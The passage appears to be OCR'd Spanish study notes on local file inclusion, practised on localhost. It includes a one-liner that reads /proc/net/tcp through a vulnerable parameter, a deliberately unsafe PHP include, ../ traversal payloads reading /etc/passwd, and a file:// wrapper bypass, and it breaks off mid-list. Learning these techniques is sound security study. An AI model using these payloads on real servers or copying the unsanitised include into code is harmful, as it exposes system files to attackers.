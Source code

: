     sudo for port in $(curl -s "http://localhost/example.php?FILE=/proc/net/tcp" | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u); do echo "[$port] --&gt; Puerto $(echo "ibase=16; $port")"; done
    [A992] → Puerto 43410
    [D8FE] - Puerto 55550



    #lo de arriba son los puertos q estan activas en el servidor posemos ver que hay en el puerto de cada uno, un ejemplo seria

    sudo lsof -i:80
    apache2 1853 root 4u IPv6 26626
    0t0 TCP *:http (LISTEN)

    #otro ejemplo creamos un archivo example2.php
    GNU nano 5.4		example2.php
    ?php
      $filename = $_GET['file'];
      include("/var/www/html/" . $filename);
    ?

    #lo subimos en el servidor

    http://localhost/example2.php?file=/etc/passwd
    #no me lo lista nada lo que pasa es que /var/www/html/
    #"esto no es un directorio"

    /etc/passwd

    lo que hay que hacer es retroceder tantas rutas hacia atras cuando queramos ejemplo:::
    /var/www/html/../../../../../etc/passwd
    #SE CONOCE COMO “Directory Traversal"

    GNU nano 5.4			example2.php
    ?php
      $filename = $_GET['file'];	
      include("/var/www/html/" . $filename);  // /var/www/html//etc/passwd
    // /var/www/html/../../../../../etc/passwd =Directory Traversal
    ?
    view-source:
    http://localhost/example2.php?file=../../../../../etc/passwd
    root:x:0:0:root:/root:/usr/bin/zsh

    #HAY LA TENEMOS
    #existe un monton de tecnica para sanear o bypass restricciones
    #vamos a ver la parte de los Wrappers=Envoltorios
    #IMAGINAMOS QUE NO PODEDEMOS ACCEDER A http://localhost/example2.php?file=../../../../../etc/passwd Y NO
    #SE NOS LISTA
    #SIENDO ASI VULN A “LFI”


    HAY ES DONDE ENTRA LOS Wrappers
    view-source:http://localhost/example2.php?file=file://../../../../../etc/passwd

    otra forma de hacer es lo sgtes:
